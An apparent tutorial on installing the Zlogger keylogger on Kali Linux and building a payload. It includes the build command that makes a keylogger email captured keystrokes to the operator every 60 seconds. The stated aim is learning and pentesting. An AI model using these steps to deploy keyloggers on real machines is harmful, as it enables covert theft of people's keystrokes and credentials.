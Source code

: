 # Zlogger In Action
_Zlogger_ is a popular keylogging tool that's used primarily for learning and pentesting on personal networks. The creators have a [Github page](https://github.com/z00z/ZLogger) where we can easily download the tool. Their github page also contains a plethora of information that may not be included in this small tutorial. In this section, I will guide readers through my short  experience with Zlogger in hopes of offering something interesting or useful.

I performed all of these commands using Kali-Linux. These commands may or may not differ slightly depending on factors like OS and python version currently installed. 

---
## Downloading Zlogger
To start, head over to the _Zlogger_ Github page linked above. Next, we can clone the repository. In my case I cloned the repository to my Kali virtual machine. 

![image](https://user-images.githubusercontent.com/46944661/117089562-798df200-ad1b-11eb-841a-698e883d7f0c.png)

After doing this, we'll have a new directory created on our machine. If we type 'ls', we SHOULD see the newly created _Zlogger_ directory. Inside this directory there's a file called 'install.sh'. In order to run it, we must make the file executable. Use the command 'chmod +x install.sh' to make it an executable, and then run the file using './install.sh'. This may take some time, let the process run, agree + confirm any popups and once it's done Zlogger will now be usable.

## Create Our Keylogging File
Let's familiarize ourselves with our new tool. Since Zlogger is a python based program, we must use 'python' followed by Zlogger.py and whatever flags we'd like to specify. Running the command 'python zlogger.py -h' displays a handy menu that we can read and learn how to use Zlogger.

![image](https://user-images.githubusercontent.com/46944661/117090613-6af50a00-ad1e-11eb-87a1-a1a35ef08b9b.png)

>**NOTE:** *When testing, it seems that in my case '-i' or INTERVAL was required to avoid an error being thrown, despite the above image stating that interval is optional.*
*It's strongly recommended before continuing to create an email account for the sole purpose of using this keylogger else you run the risk of flooding your email address with the logs Zlogger sends.*

To get our keylogger file output to us, we must provide information to the tool. I typed 'python3 zlogger.py -i 60 -l -e [EMAILGOESHERE] -p [EMAILPASSWORDGOESHERE] -o ThisIsATest' and then hit enter. The -i flag indicates an interval of 60 seconds, which means every minute we will receive a new log file emailed to us. The -l flag tells Zlogger that we'd like the output file to be for Linux machines. The -e and -p flags should be for the emailaddress and password for the email address, while -o is the name of the output file. After hitting enter, this is what we're met with.

![image](https://user-images.githubusercontent.com/46944661/117171177-43d72080-ad90-11eb-8ef1-a1aafa8ed6d3.png)

